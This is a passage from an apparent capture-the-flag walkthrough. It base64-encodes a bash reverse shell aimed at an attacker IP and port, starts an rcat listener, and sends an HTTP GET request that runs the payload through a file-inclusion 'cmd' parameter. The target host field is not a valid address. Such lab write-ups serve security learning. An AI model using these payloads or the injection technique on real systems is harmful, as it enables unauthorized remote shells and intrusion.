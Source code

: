 ![Rev shell generator website](Assets/rev_shell_gen.jpg)

I’ll base64 encode adding spaces where needed to remove non-alphanumeric characters and gamble on the target having the base64 utility installed to hopefully increase the chance of the payload working.

```bash
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001 0>&1 " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxIDA+JjEg
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001  0>&1 " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYxIA==
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001  0>&1  " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYxICA=
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001  0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYx
```

Start the listener ([found on this blog post](https://medium.com/@Thigh_GoD/how-to-automatically-upgrade-a-dumb-reverse-shell-6a4cb5c44997))

```bash
stty raw -echo; stty size && rcat l -ie "script -qc /bin/bash /dev/null" 9001 && reset
```

and fire the payload

```
GET /shop/index.php?page=/var/lib/mysql/s&cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYx+|+base64+-d+|+bash HTTP/1.1
Host: 10.10.11.2292
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
